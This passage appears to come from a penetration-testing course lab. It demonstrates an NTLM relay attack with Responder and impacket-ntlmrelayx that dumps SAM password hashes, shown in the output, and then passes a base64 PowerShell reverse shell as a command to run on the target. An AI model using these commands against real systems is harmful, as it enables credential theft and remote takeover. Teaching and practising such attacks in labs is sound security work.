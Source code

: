 First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`).

```shell-session
al1abb@htb[/htb]$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

Then we execute `impacket-ntlmrelayx` with the option `--no-http-server`, `-smb2support`, and the target machine with the option `-t`. By default, `impacket-ntlmrelayx` will dump the SAM database, but we can execute commands by adding the option `-c`.

```shell-session
al1abb@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

<SNIP>

[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections

[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, attacking target smb://10.10.110.146
[*] Authenticating against smb://10.10.110.146 as /ADMINISTRATOR SUCCEED
[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, but there are no more targets left!
[*] SMBD-Thread-5: Connection from /ADMINISTRATOR@10.10.110.1 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xeb0432b45874953711ad55884094e9d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92512f2605074cfc341a7f16e5fabf08:::
demouser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
test:1001:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Done dumping SAM hashes for host: 10.10.110.146
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64).

```shell-session
al1abb@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwA<SNIP>'
```
